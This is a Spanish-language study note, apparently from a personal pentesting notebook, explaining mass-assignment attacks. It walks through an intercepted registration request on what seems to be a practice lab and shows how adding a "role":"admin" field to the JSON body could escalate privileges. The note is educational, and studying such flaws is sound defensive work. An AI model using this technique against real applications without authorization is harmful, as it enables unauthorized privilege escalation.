 -----
-  Tags: #ataques #basico #teoria #practica 
----

# ¿ Que es el **ataque de asignación masiva** ? 

El **ataque de asignación masiva** o **Mass-Assignment Attack** se basa en la manipulación de parámetros de entrada de una solicitud HTTP para crear o modificar campos en un objeto de modelo de datos en la aplicación web. En lugar de agregar nuevos parámetros, los atacantes intentan explotar la funcionalidad de los parámetros existentes para modificar campos que no deberían ser accesibles para el usuario. 

Por ejemplo en una aplicación web de gestión de usuarios, un formulario de registro puede tener campos para el nombre usuario, correo electrónico y contraseña. Sin embargo, si la acpliación utiliza una biblioteca o marco que permite la asignación masiva de parámetros, el atacante podría manipular la solicitud HTTP para agregar un parámetro adicional, como el nivel de privilegio del usuario. De esta manera, el atacante podría registrarse como un usuario con privilegios elevados, simplemente agregando un parámetro adicional a la solicitud HTTP.

----

# Explotación 

Para explotar esta vulnerabilidad, una vez más, pueden existir muchos casos, ya sea por intuición, por puro intento, entre otras, por ejemplo....

Tenemos una página web en la cual existe una sección de "create account" en donde interceptando la petición con [[Burpsuite]] vemos que se tramita una estructura tal que asi: 

```json
{
	"email":"dobliuw2@dobliuw.com",
	 "password":"dobliuw123",
	 "passwordRepeat":"dobliuw123",
	 "securityQuestion":{
		 "id":2,
		 "question":"Mother's maiden name?",
		 "createdAt":"2023-05-16T18:46:09.595Z",
		 "updatedAt":"2023-05-16T18:46:09.595Z"
	 },
	 "securityAnswer":"dobliuw"
 }
```

Y a la hora de crear el usuario, es decir, dejar tramitar esta petición, vemos una respuesta tal que así: 

```json

{
	"status":"success",
	"data":{
		"username":"",
		"deluxeToken":"",
		"lastLoginIp":"0.0.0.0",
		"profileImage":"/assets/public/images/uploads/defaultAdmin.png",
		"isActive":true,
		"id":22,
		"email":"dobliuw2@dobliuw.com",
		"role":"user",
		"updatedAt":"2023-05-16T18:50:27.165Z",
		"createdAt":"2023-05-16T18:50:27.165Z",
		"deletedAt":null
	}
}
```

Por lo que al ver todos los parámetros de un usuario, podriamos probar si la web es vulnerable a **Mass-Assignment Attack** intentando asignar un rol, el cual podría ser "admin" en la creación del usuario, modificando el JSON original, agregando el campo: 

```json
{
	....,
	"role":"admin",
	....
}
```

